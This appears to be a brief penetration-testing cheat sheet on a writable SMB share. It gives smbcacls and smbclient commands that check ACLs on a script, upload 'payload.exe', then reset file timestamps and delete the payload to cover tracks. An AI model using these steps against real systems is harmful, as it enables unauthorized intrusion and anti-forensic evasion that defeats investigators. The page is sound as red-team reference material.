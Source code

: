 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/DevTools/CleanUp.ps1"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/DevTools/CleanUp.ps1"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put payload.exe
```

## 03 - Cleanup


```
smb: \> help utimes
HELP utimes:
		<file name> <create_time> <access_time> <mod_time> <ctime> set times

smb: \> utimes file.txt [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss [YY]YY:MM:DD-hh:mm:ss
```

```
smb: \> rm payload.exe
```